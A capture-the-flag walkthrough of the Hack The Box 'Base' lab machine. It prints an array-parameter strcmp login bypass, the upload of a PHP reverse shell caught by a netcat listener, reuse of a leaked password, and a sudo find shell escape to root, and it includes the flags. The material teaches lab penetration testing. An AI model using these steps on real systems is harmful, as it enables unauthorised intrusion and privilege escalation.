


# Starting Point - Base

## Enumeration

```
$ rustscan 10.10.10.48 -- -sC -sV -o port_scans

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                  
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                             
| ssh-hostkey:                                                                                                                                                                        
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQmgId8Z5lyLG718jzJ9KoLYQPuaKh/Z1++me8L01noJeFuv5RPeqgtoJSeWKcimm7Cw7q3HDUZEHL2LncJIad5v04ma8xgiAG+xUmiO+ntkOff06rtsEx51XRWrbuN4gcTxDCPQQyTJKnTAfleagTbtoWtPNvi82SzaaPyU88nhcn/72USczCeiVfRvawQCcAIHKqUnJzTGlSHAwd6Fj+4sq4CTw0MCrZSTG9JCQmyUVbCFJaF/AtQ0PDOQ/fVhZH8E7E+faAlJKWTYr2sIfQZmC7enT2W82zzWL/JRiQXgAzsI8B6JTJOl3gbmy3+rLY9H+1qztceYKaA8wjFT/5
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3Z4xQdzt1Zxsy5gdOFTrv3k9HtD0UppMhGWFIFWnHZgWAdONjTRzD/ZeiyGeDUgYWGGpQOzl74HXesdUhr+h0=
|   256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINbQMzI8ONrv2TFdy0S8PtObPfizkmQ+217qx1pejwce
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that two ports are open. Port 80, on which an Apache server is running and ssh on Port 22.

# Examine Port 80 - Apache Server


We see a website, with no specific theme or company relation. It's just offering 5 different navigation options, of which only the Login actually works. Clicking on it, we get forwarded to a PHP Login page.


Instead of trying to bruteforce the login directly, we can start enumerating a bit. What I directly noticed, is, that the URL of the Login is `http://10.10.10.48/login/login.php`. Maybe we can access the parent directory.

Due to an misconfiguration, we can actually access it!



And due to another developer mistake, there is still the `swp` file of login.php! This usually happens if the developer edits the file within the directory and then uploads the files to a repository/server without closing the editor first. Let's see if there is any valuable information in that login.php.swp file. Therefore we first download it to our local machine with wget.

```
└──╼ $ file login.php.swp     
login.php.swp: Vim swap file, version 8.0
```

Exactly as I thought. The developer used VIM and forgot to close the editor before uploading it. Using `cat`/`more` or `strings` on the file, it reveals the code of the login.php file:

```php
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: ../upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```
The above code checks the username/password combination that the user inputs, against the variables that are stored in config.php to see if they match. The following lines are interesting.

```php
if (strcmp($password, $_POST['password']) == 0) {
  if (strcmp($username , $_POST['username']) == 0) {
```

The developer is using `strcmp` to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if strcmp is given an empty array to compare against the stored password, it will return null. In PHP the == operator only checks the value of a variable for equality, and the value of NULL is equal to 0. The correct way to write this would be with the === operator which checks both value and type ([strcmp doc](https://www.php.net/manual/en/function.strcmp.php), [triple equal operator](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)). Let's open burp and catch the login request.

```
POST /login/login.php HTTP/1.1
Host: 10.10.10.48
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.10.10.48
DNT: 1
Connection: close
Referer: http://10.10.10.48/login/login.php
Cookie: PHPSESSID=nvtt5pdb6j01rmv842sp9u0n3a
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=test&password=test
```

Change the POST data as follows to bypass the login:

```
username[]=test&password[]=test
```

This converts the variables to arrays and bypasses strcmp. Once logged in, we see there is additional functionality to upload files.


Now we simply upload a PHP reverse shell. It succeeds! But where is it uploaded to? Let's start gobuster and search for additional directories. 

```
[+] Threads:        10 
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt                                                         
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s                     
===============================================================                                             
2021/01/06 09:54:39 Starting gobuster                                                                    
===============================================================                                            
/.htaccess (Status: 403)                        
/.htpasswd (Status: 403)                     
/_uploaded (Status: 301)                    
/login (Status: 301)                       
/server-status (Status: 403)           
/static (Status: 301)     
```

There is a directory called `_uploaded`. Let's check this one out.



Now what's left is to start a nc listener on our local machine and then start our reverse shell by either clicking on the shell.php link or by requesting the file through wget/curl.

## Exploitation

Now that we have a reverse shell, let's see what we can exploit to get access to a user or even root.

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.48] 49812
Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:26:48 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Inspecting the `config.php`, which we previously found in the login directory, we can now see the admin password and username:

```
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

Let's try that for the user `john`, which we also just found in the home directory, by typing `su john`. And it works! We are now user `john`.

Now we can obtain the user flag: `f54846c258f3b4612f78a819573d158e`

Next step is to gain root privileges. Therefore, we first check the sudo privileges of our current user:

```
$ sudo -l
[sudo] password for john: thisisagoodpassword
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

This is fairly easy. Either you already know it or simply check GTFObins.

```
john@base:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Post Exploitation

Obtaining the root flag: `51709519ea18ab37dd6fc58096bea949`

And we are done with the Starting Point series!